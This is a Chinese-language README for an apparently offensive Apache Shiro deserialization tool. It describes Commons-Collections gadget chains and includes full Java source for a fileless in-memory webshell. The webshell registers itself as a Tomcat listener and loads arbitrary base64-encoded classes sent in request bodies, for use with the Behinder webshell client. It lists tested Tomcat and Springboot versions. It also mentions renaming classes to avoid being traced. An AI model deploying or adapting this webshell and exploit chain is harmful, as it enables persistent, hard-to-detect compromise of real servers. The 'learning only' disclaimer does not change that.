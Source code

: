 # Dr4gon's Sword
- [Dr4gon's Sword](#dr4gon-s-sword)
  * [Shiro](#shiro)
    + [使用方法](#----)
    + [利用链](#---)
    + [内存马和回显方法](#--------)
    + [本地测试过的中间件版本](#-----------)
- [未来准备更新(可能)](#----------)

版本0.0.1,目前只有Shiro,刚入门JAVA,后续随着学习会加入更多漏洞

仅供交流学习漏洞利用方式,请勿用于非法用途

## Shiro

### 使用方法

点击Inject进行注入,然后才能连接冰蝎或者执行命令

连接冰蝎的时候加get参数stage=s

![2](2.png)

![1](1.png)

### 利用链

Commons-CollectionsK1_1 和K1的区别基本上只是我用的是InstantiateTransformer,K1用的是InvokerTransformer(大概是CC3和CC6分别缝合TemplatesImpl以后的区别)

总结:几乎一样

### 内存马和回显方法

使用listener注入,相比于[j1anFen](https://github.com/j1anFen)师傅用的servlet来说,不会被shiro拦,只要tomcat能解析的路径就能上线内存马,不用怕shirofilter匹配*的情况

并且defineclass直接加载了pageContext类(有的时候没有依赖导致注入失败)

另外我这边同一个listener同时实现命令执行回显和内存马,命令执行回显可以GBK编码

核心利用链为实现一个Listener同时继承AbstractTranslet类并且实现ServletRequestListener接口

```JAVA
public class Init extends AbstractTranslet implements ServletRequestListener  {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException { }
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException { }
    public Init() throws Exception {
        super();
        super.namesArray = new String[]{"ccdr4gon"};
        WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardContext standardCtx = (StandardContext)webappClassLoaderBase.getResources().getContext();
        standardCtx.addApplicationEventListener(this);
    }

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {}
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        try {
            RequestFacade requestfacade= (RequestFacade) sre.getServletRequest();
            Field field = requestfacade.getClass().getDeclaredField("request");
            field.setAccessible(true);
            Request request = (Request) field.get(requestfacade);
            if (request.getParameter("stage").equals("init")) {
                StringBuilder sb = new StringBuilder("");
                BufferedReader br = request.getReader();
                String str;
                while ((str = br.readLine()) != null) {
                    sb.append(str);
                }
                byte[] payload = Base64.getDecoder().decode(sb.toString());
                Method defineClass = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                defineClass.setAccessible(true);
                Class clazz = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), payload, 0, payload.length);
                clazz.newInstance();
            }
        }catch (Exception ignored){ }
    }
}
```

### 本地测试过的中间件版本

Tomcat 8.5.51 √

Springboot 2.3.5 √  似乎对应 tomcat-embed-core 9.0.39

# 未来准备更新(可能)

- 把类名改了,总感觉有可能会被溯源
- shiro
  - 自定义Behinder的pass(现在还只能是默认的rebeyond,太惨了)
  - aes gcm加密方式(说实话也不知道有没有用)
  - commons-collections4的利用链

- fastjson

- weblogic等等更多以后准备学习的JAVA漏洞
- okhttp库response的获取有点迷,似乎只能获取一次,目前处于能用就行的丑陋状态,之后看看怎么改改

